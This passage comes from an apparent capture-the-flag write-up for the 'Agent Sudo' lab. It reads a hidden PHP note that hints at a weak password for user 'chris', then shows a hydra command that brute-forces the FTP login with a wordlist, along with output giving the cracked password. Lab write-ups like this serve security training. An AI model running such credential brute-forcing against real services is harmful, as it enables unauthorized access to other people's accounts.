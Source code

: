 ![burpsuite-C](images/UserAgentC.png)

Visiting `<TARGET-IP>/agent_C_attention.php` gives us the following text:
```
Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,
Agent R
```
- C and R are involved in a deal
- there is another agent named J
- R wants C to talk to J about something
- C's password is weak
- C's name is Chris

## Cracking hashes and passwords

### FTP access
We know that Chris, Agent C, has a weak password. In terms of cracking, we should be able to bruteforce it using `hydra`.
```
user@parrot ~/writeup/agent-sudo $ echo 'chris' > username    
user@parrot ~/writeup/agent-sudo $ hydra -L username -P /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt ftp://<TARGET-IP> -s 21 -o result

result: [21][ftp] host: <TARGET-IP>   login: chris   password: crystal
```
We successfully cracked the ftp password for the user 'chris': it is **crystal**.
